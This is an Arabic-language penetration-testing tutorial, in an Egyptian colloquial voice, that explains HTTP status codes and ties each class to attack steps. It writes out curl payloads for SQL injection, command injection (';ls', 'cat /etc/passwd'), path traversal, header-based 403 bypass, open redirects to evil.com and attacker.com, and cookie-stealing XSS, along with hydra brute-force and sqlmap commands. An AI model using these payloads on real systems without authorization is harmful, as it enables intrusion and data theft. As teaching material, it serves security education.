 تمام، هنشرح **رموز الحالة (Status Codes) ومعانيها** بنفس الطريقة السابقة: شرح مفصل وعملي مع أكواد وأوامر، مع تركيز على اختبار الاختراق (Pentesting)، وبعد كل جزء هخلّص بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال.

---

### **1. شرح رموز الحالة (Status Codes) ومعانيها بالتفصيل:**

#### **أ. المفهوم الأساسي (What Are Status Codes):**
- رموز الحالة هي أرقام بيبعتها السيرفر مع الرد عشان يقولك حالة طلبك إيه. بتيجي في أول سطر في الرد (مثل `HTTP/1.1 200 OK`).
- مقسمة لـ 5 فئات:
  - **1xx:** معلومات (نادرة).
  - **2xx:** نجاح.
  - **3xx:** إعادة توجيه.
  - **4xx:** خطأ من العميل.
  - **5xx:** خطأ في السيرفر.

- **مثال عملي:**
  - `curl -I http://example.com` (يجيبلك الرؤوس مع الكود):
    - `HTTP/1.1 200 OK` (كل حاجة تمام).

- **جانب عملي للبينتست:**
  - جرب تشوف الكود:
    - `curl -I http://example.com/nonexistent` (غالبًا 404).
  - استخدم `wget`:
    - `wget --spider http://example.com` (يظهر الكود بدون تحميل).

- **خلاصة بالعامية:**
  - "الكود ده زي الرسالة من السيرفر: لو 200 يبقى فرحان، لو 500 يبقى متبهدل، ولو 404 يبقى ضايع."

---

#### **ب. الفئات والرموز الشائعة (Categories & Common Codes):**

1. **1xx (Informational):**
   - نادرة، بتقول إن الطلب لسه بيتعالج.
   - **100 Continue:** "كمّل ابعت البيانات".
   - عملي: مش شائعة جدًا، بس ممكن تشوفها في طلبات كبيرة.

2. **2xx (Success):**
   - **200 OK:** الطلب نجح والبيانات رجعت.
     - `curl http://example.com` (رد 200 مع الصفحة).
   - **201 Created:** تم إنشاء حاجة جديدة (زي بعد POST).
     - `curl -X POST -d "name=test" http://example.com/users`.

3. **3xx (Redirection):**
   - **301 Moved Permanently:** المورد انتقل لمكان جديد.
     - `curl -I http://example.com/old` (يظهر Location جديد).
   - **302 Found:** إعادة توجيه مؤقت.
     - `curl -L http://example.com/temp` (يتبع التوجيه).

4. **4xx (Client Error):**
   - **400 Bad Request:** الطلب غلط (صيغة مش صح).
     - `curl http://example.com/?id=abc!@#` (400 لو مش متوقع).
   - **403 Forbidden:** ممنوع الوصول.
     - `curl http://example.com/admin`.
   - **404 Not Found:** المسار مش موجود.
     - `curl http://example.com/xyz`.

5. **5xx (Server Error):**
   - **500 Internal Server Error:** مشكلة داخلية في السيرفر.
     - `curl http://example.com/?id=1;ls` (لو بيطلع خطأ).
   - **503 Service Unavailable:** السيرفر مشغول أو متعطل.
     - `curl http://example.com` (لو تحت ضغط).

- **جانب عملي للبينتست:**
  - 200: جرب تحقن: `curl http://example.com/search?q=test' OR '1'='1` (لو رجع 200 مع بيانات زيادة).
  - 403: جرب تجاوز: `curl -H "X-Forwarded-For: 127.0.0.1" http://example.com/admin`.
  - 404: ابحث عن مسارات مخفية: `dirb http://example.com /wordlist.txt`.
  - 500: كرر الهجوم: `curl http://example.com/?id=1;cat /etc/passwd` (استغلال خطأ).

- **خلاصة بالعامية:**
  - "كل رقم ليه حكاية: 200 يعني فل، 403 يعني ممنوع، 500 يعني السيرفر بيصرخ، استغل الكود اللي ينفعك."

---

#### **ج. معاني إضافية واستخدامات (Additional Meanings):**
- **200 قد تكون خدعة:** لو رجع بيانات مش متوقعة (زي SQLi ناجح).
- **403/401:** فرق بسيط:
  - 403: ممنوع حتى لو عندك تصريح.
  - 401 Unauthorized: محتاج تسجل دخول.
- **500:** غالبًا بيكشف مشكلة في الكود (فرصة ذهبية).

- **مثال عملي:**
  - 401: `curl http://example.com/api` (يطلب Auth).
  - 403: `curl -u "admin:wrongpass" http://example.com/admin`.

- **جانب عملي للبينتست:**
  - 401: جرب كلمات سر ضعيفة: `hydra -l admin -P /wordlist.txt http://example.com -M http-get`.
  - 403: جرب تغير المسار: `curl http://example.com/Admin` (Case Sensitivity).
  - 500: حقن أوامر: `curl http://example.com/?cmd=whoami`.

- **خلاصة بالعامية:**
  - "الكود مش مجرد رقم، ده دليلك: لو 403 ابحث عن مفتاح، لو 500 العب في الجرح، كل حاجة ليها معنى."

---

#### **د. الأمن والثغرات (Security & Vulnerabilities):**
- **2xx:** ممكن يكشف بيانات حساسة لو السيرفر مش محمي.
- **3xx:** إعادة توجيه مفتوحة (Open Redirect).
- **4xx:** سوء تهيئة (مثل 403 بدل 404) بيكشف مسارات.
- **5xx:** أخطاء بتظهر تفاصيل داخلية (Stack Traces).

- **مثال عملي:**
  - 302: `curl http://example.com/redirect?url=http://evil.com` (Open Redirect).
  - 500: `curl http://example.com/?id=1' DROP TABLE users --` (SQL Error).

- **جانب عملي للبينتست:**
  - 2xx: جرب استخراج بيانات: `curl http://example.com/api/users/1 UNION SELECT 1,2,3--`.
  - 3xx: حقن رابط خبيث: `curl http://example.com/redirect?url=javascript:alert(1)`.
  - 4xx: فحص مسارات: `gobuster dir -u http://example.com -w /wordlist.txt`.
  - 5xx: استغلال الأخطاء: `curl http://example.com/?file=../../etc/passwd`.

- **خلاصة بالعامية:**
  - "الكود لو اتقرا صح هيوريك الثغرة على طبق: 500 يعني فوضى، 403 يعني فيه حاجة مخبية، العب على الحتة الضعيفة."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف الردود:**
   - `curl -I http://example.com` (شوف الكود الأساسي).
   - `nmap -p 80 --script http-enum example.com` (كشف مسارات).

2. **اختبر 2xx:**
   - `curl http://example.com/search?q=test' OR '1'='1` (SQLi).
   - `curl http://example.com/api/users/1` (بيانات حساسة).

3. **استغل 3xx:**
   - `curl http://example.com/redirect?url=http://attacker.com` (Open Redirect).
   - جرب XSS: `curl http://example.com/redirect?url=javascript:alert(document.cookie)`.

4. **هاجم 4xx:**
   - 403: `curl -H "Referer: http://example.com" http://example.com/admin`.
   - 404: `ffuf -u http://example.com/FUZZ -w /wordlist.txt`.

5. **اضرب 5xx:**
   - `curl http://example.com/?id=1;ls` (Command Injection).
   - `sqlmap -u http://example.com/?id=1 --dbs` (SQLi لو ظهر 500).

---

### **خلاصة نهائية بالعامية:**
- "رموز الحالة دي زي إشارات المرور، لو فهمتها هتعرف تمشي فين وتضرب فين، 500 يعني افتح الباب، 403 يعني دور على الشباك، خلّيك شاطر!"